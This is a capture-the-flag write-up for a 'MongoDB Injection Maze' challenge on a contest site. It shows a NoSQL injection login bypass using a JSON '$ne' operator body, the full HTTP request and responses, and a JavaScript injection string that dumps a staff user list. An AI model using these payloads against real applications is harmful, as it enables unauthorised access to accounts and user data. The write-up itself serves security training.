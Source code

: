 # Tags
- Mongodb
- NoSQL injection
- JS injection

# Intro

Welcome to the MongoDB Injection Maze! Your mission is to exploit a vulnerable web application that uses MongoDB as its database backend. Your goal is to penetrate into the system by leveraging MongoDB injection

# MongoSQL Vulnerability
A site is given that seems to be able to do MongoDB Injection. There is no source code. The first step is to break through the login page.

After trying some mongodb payloads with burpsuite we alway get the following response:

```
HTTP/2 302 Found
Date: Thu, 07 Sep 2023 09:25:49 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
X-Powered-By: Express
Location: /login
Vary: Accept
X-Xss-Protection: 1; mode=block
Server: ArvanCloud
X-Sid: 4104
Server-Timing: total;dur=224
X-Request-Id: 9e1568c97968615ce95c8232264ffd06

<p>Found. Redirecting to <a href="/login">/login</a></p>
```

It seems like, when we fail the login it will redirect to the login page.
However when we add the following payload:

```
POST /login HTTP/2
Host: cp.uctf.ir
Cookie: ssid=s%3A5303d8b9-1021-4197-a80c-b16b39f36283.rDQ9mtIhm0QstGCUND6iZWRKMLK1LyGYB37wDwN9j7E; ba07499ab750e5460403c776a406d8aa=2f5d7fb3ebb84203292b3e716d6376d1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://cp.uctf.ir/login
Content-Type: application/json
Content-Length: 49
Origin: https://cp.uctf.ir
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

{"username":{"$ne": "x"},"password":{"$ne": "x"}}
```

Note: Change the content-type to application/json!
We are redirect to /home page:


```
HTTP/2 302 Found
Date: Thu, 07 Sep 2023 09:27:33 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 54
X-Powered-By: Express
Location: /home
Vary: Accept
Set-Cookie: ssid=s%3A5303d8b9-1021-4197-a80c-b16b39f36283.rDQ9mtIhm0QstGCUND6iZWRKMLK1LyGYB37wDwN9j7E; Path=/; Expires=Thu, 14 Sep 2023 09:27:33 GMT; HttpOnly
X-Xss-Protection: 1; mode=block
Server: ArvanCloud
X-Sid: 4103
Server-Timing: total;dur=236
X-Request-Id: 72f92886bdff906c9aa7df318b096688

<p>Found. Redirecting to <a href="/home">/home</a></p>
```

So lets copy the cookie to our browser and look for the flag in the /home page.
In this page, seems to have a staff lookup functionality. If we try regex, such as .* we can't find nothing.
The page is making requests to GET /lookup/<input>. 
Using the payload: `'; return true; var d='` we are able to see the list of users. The payload bypasses the conditional expression and store the values in a variable.
The flag is: `UCTF{7_Burukh_Kuchase}`
